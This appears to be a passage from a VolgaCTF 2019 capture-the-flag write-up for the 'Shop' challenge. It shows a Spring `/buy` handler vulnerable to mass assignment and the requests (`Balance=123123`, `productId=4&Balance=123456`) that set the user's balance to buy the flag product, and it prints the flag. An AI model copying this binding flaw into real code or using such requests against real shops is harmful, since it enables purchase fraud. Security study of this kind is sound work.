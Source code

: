 We can easily modify `name`、`pass` and `balance`.

`shop.q.2019.volgactf.ru/profile?name=wow! such mass assignment!&Balance=123123`

![](https://i.imgur.com/GatBb2N.png)

Let's focus on `/buy` Request

```=java=1

@RequestMapping(value={"/buy"})
    public String buy(@RequestParam Integer productId, @ModelAttribute(value="user") User user, RedirectAttributes redir, HttpServletRequest request) {
        HttpSession session = request.getSession();
        if (session.getAttribute("user_id") == null) {
            return "redirect:index";
        }
        Product product = this.productDao.geProduct(productId);
        if (product == null) {
            redir.addFlashAttribute("message", (Object)"Product not found");
            return "redirect:index";
        }
        if (product.getPrice() > user.getBalance()) {
            redir.addFlashAttribute("message", (Object)"Not enough money");
            return "redirect:index";
        }
        user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));
        user.getCartItems().add(product);
        this.userDao.update(user);
        redir.addFlashAttribute("message", (Object)"Successful purchase");
        return "redirect:profile";
    }
    
```
 
Because we can easily control the `Balance`, this challenge can easy exploit by using `/buy` request.


```
POST /buy HTTP/1.1  

......

productId=4&Balance=123456

```

`VolgaCTF{c6bc0c68f0d0dac189aa9031f8607dba}`

### Shop V2

The challenge's vulnerability is same as the v1.
But we cannot use `/buy` request anymore.

